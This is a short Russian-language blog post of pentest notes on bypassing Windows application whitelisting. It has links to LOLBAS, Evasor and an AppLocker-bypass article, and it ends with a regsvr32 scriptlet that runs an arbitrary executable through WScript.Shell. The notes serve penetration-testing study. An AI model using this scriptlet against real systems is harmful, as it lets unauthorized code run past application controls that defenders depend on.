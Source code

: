 ```yaml
---
layout: post
categories: articles
tags:
  - ru
  - windows
published: true
ru: true
---
```


# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение
В принципе, вариантов у нас немного, либо ищем бинарники которые мы можем запускать и которые могут что-то запускать, либо ищем бинарники которые можно запускать и которым мы можем менять конфиги, как например пути к либам.

А еще есть ПроцесХайджекинг, но про него я много не знаю.

# Ссылки
[Запуск пейлоада с помощью .NET](https://github.com/khr0x40sh/WhiteListEvasion),
[Список всех интересных бинарников винды которые могут быть использованны против неё](https://lolbas-project.github.io/),
[Исходники штуки которая ищет недостатки в вайтлистинге на конкретной машине](https://github.com/cyberark/Evasor/),
[Обход вайтлиста с помощью regsvr32](https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/),
Пример кода для regsvr32
<code>
<?XML version="1.0"?>
<scriptlet>
<registration         
progid="Pentest"       
classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
 
<![CDATA[   
var r = new ActiveXObject("WScript.Shell").Run("cmd /k cd c:\ & pentestlab.exe"); 
]]>
 
</script>
</registration>
</scriptlet>
</code>
